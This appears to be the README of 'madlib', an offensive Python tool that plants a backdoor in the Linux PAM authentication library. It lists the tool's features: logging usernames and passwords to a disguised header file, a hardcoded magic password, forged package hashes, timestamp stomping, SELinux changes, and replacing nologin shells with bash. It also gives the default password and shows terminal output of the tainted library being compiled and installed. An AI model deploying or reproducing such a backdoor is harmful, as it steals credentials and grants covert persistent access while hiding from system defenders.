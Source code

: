 # madlib
## Features: 
* Logs username/passwords to file
* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)
* Automatically updates the DPKG MD5 hashes for all moved/replaced files
* Time stomps all moved/replaced files
* Updates SE Linux configuration to allow for changed file
* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)
## Requirements:
* Requires Python3
* Root privileges needed
## Default Entries:
* Username/passwords by default are logged to `/usr/include/type.h`
* The default magic password is `secretpassxd`


## Usage

Manually Specifying PAM Version:

```
root@homebase /h/r/madlib# ./pam.py "1.3.0"
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:15:55] [+] PAM TAR Download Completed
[00:15:56] [+] Finishing Extracting
[00:15:56] [+] Added Backdoor
[00:16:16] [+] Finished Compiling Tainted Lib
[00:16:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'
```

Automatic Version Detection:

```
root@homebase /h/r/madlib# ./pam.py
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:17:55] [!] Detected PAM Version: '1.3.0'
[00:17:55] [+] PAM TAR Download Completed
[00:17:56] [+] Finishing Extracting
[00:17:56] [+] Added Backdoor
[00:18:16] [+] Finished Compiling Tainted Lib
[00:18:16] [+] Finished Successfully Compiled PAM File Moved to: '/lib/x86_64-linux-gnu/security/pam_unix.so'
```

